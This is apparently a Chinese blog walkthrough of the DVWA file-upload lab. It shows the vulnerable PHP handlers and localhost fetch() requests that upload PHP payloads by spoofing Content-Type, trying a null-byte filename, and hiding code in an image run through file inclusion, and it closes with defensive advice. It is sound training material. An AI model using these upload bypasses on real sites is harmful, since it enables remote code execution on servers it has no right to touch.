








## 前言

快速过一下文件上传。老写一大串没用的这次简洁点。

## 原理

1. 文件传到服务器上了。
2. 没做好文件类型过滤和执行权限的控制，传上来的文件包含恶意代码。

上传的恶意文件被执行，于是寄。

## 解题

### 收集信息



一个文件上传表单，提示选择图片上传。



点击选择文件发现前端就没过滤文件类型。随便选了个文件上传。



...行，直接寄了。

### Low难度

看一眼代码，没有任何防护，逻辑清晰：取文件名，拼接到上传位置，然后把临时文件移动过去。就这样。

```php

<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

直接传一个 php 文件也不会拦，所以直接传个上去。就刚才的 1.php 好了。然后访问。



成功。

### Medium难度

前端没变化，看源码。

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

主要变化出现在 `if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) && ( $uploaded_size < 100000 ) )` 这段代码。`uploaded_type` 是 `$_FILES['uploaded']['type']`，查文档可知



类型信息是由浏览器提供的，因此可以选择自己构造一个文件上传请求，改掉 Content-Type 之后发出去。偷懒直接把 Low 难度下的文件上传请求右键复制 fetch 出来（edge/chrome 对 `multipart/form-data` 的请求不能复制出请求体，这一步只能用火狐），把复制出来的命令的 `body` 里：

1. `Content-Type` 改成 `image/jpeg`。
2. 文件名改成 `2.php`，以区别于 Low 难度下的 `1.php`

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"2.php\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

然后贴回浏览器控制台执行。



成功。

### High难度

观察源码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

注意到改为使用文件后缀名判断，但取后缀名的逻辑有点意思：`$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);`

`strrpos` 会返回最后一次出现`.`的位置，然后`substr`从这个位置+1截取字符串，比如`1.jpg`就会取到`jpg`。直觉告诉我可以转义或者`%00`截断来解决这个问题，直接在 medium 难度的 payload 上改一改文件名`1.php%00.jpg`，然后贴进控制台试试。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.php%00.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

观察响应发现不成功。直接放弃转义的想法，重新审阅下代码，没想出怎么直接 bypass 了。不过考虑是可以利用 apache 或者 nginx 的文件名解析漏洞，但我这个容器用了新版 apache 所以大概是不可行的=。=

另一种解法是利用文件包含漏洞，这个比较容易，改一下上面的 payload 把文件名改成 `3.jpg`。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

结果还是不行，重新审阅代码，注意到一个新出现的函数 `getimagesize`，查询文档得知是获取图片大小的函数，可能会读取文件内容=，=而我的图片不是合法的图片所以就寄了。于是再改一改，直接这次把 payload 附加在正常图片后。不过这次选择的是 `jpg` 后缀名和 `svg` 文件内容（防止jpg图片的二进制数据把php解释器搞挂了）。payload 改成如下。

```js
await fetch("http://localhost:8080/vulnerabilities/upload/#", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Content-Type": "multipart/form-data; boundary=---------------------------257607891334311387353687588123",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1"
    },
    "referrer": "http://localhost:8080/vulnerabilities/upload/",
    "body": "-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"MAX_FILE_SIZE\"\r\n\r\n100000\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"uploaded\"; filename=\"3.jpg\"\r\nContent-Type: image/jpeg\r\n\r\n<svg version=\"1.1\" id=\"Capa_1\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" x=\"0px\" y=\"0px\" width=\"400px\" height=\"738px\" viewBox=\"0 0 400 738\" enable-background=\"new 0 0 400 738\" xml:space=\"preserve\"></svg><?php phpinfo(); ?>\r\n-----------------------------257607891334311387353687588123\r\nContent-Disposition: form-data; name=\"Upload\"\r\n\r\nUpload\r\n-----------------------------257607891334311387353687588123--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

然后再提交，依然不行，淦。这次改成绝对正常的图片附带phpinfo。



上传！失败而且发现一个警告：

```plaintext
Warning: getimagesize(): Filename cannot be empty in /var/www/html/vulnerabilities/upload/source/high.php on line 17
```

调试 dvwa 代码后发现是 dvwa 代码里没检查错误，上传失败的原因是图片太大超过了表单限制=。=

```php
( $uploaded_size < 100000 ) && // 实际上 php 在 $_FILES[ 'uploaded' ][ 'size' ] 设置的是 0，error 是 2
        getimagesize( $uploaded_tmp )
```

正确做法应该是先检查错误：

```php
( $_FILES[ 'uploaded' ][ 'error' ] === 0) &&
( $uploaded_size < 100000 ) &&
getimagesize( $uploaded_tmp )
```

不然 `$uploaded_tmp` 始终是空字符串的情况下，只会提示 `filename cannot be empty` 就很不友好=。=我不确定这算不算 bug 但反正对我这样不太熟悉 php 的人不友好，强行 `echo var_dump($_FILES[ 'uploaded' ]);` 才发现有个 `error` 被设置成了 2。如果没有这个 `error` 的话我可能就要懵上几天了。

总之，发现问题原因之后，解决之。

把图片放tinypng压缩一下（160k => 6k），然后重新用正常图片带 payload，然后在文件包含这一节的漏洞包含这个png文件完成利用。



完成。

## 总结

阻止上传的文件没有夹带私货基本不太可能，毕竟可以用各种乱七八糟的办法把代码隐藏起来，比如编码成像素。但阻止利用还是可以的，把文件包含的洞和文件名解析的洞堵上，传个图片马之类的就没什么用了。图片马应该也能通过搜索文件内容是否包含特定字节序列（比如`<?php`）来堵一部分利用方式吧，虽然说有误杀的可能。

还有种做法是考虑不要把上传文件存到可能被当代码解析的地方，比如和代码一起放在 `/var/www/html`。可以考虑下部署个 Ceph 之类的对象存储服务或者买大厂的对象存储。这样的话解析漏洞大概率是用不了了，包含漏洞也只要堵上远程包含就行。相应的对象存储服务本身有没有洞，有没有按最佳实践做好保护都会变成新问题=。=这属于是扩大攻击面了。

不过编程习惯好的码农再加上一门合适的语言和技术选型，相对安全还是能有个大概的保障的吧，咱也不敢说死，毕竟菜，啥也不懂。但烂项目是真的可以很烂，之前玩弄过的一个 Android App 就非常山寨，居然秘钥都敢放客户端=。=这帮人到底怎么做的技术决策我是真的无法理解了。

好了，哔哔完了。
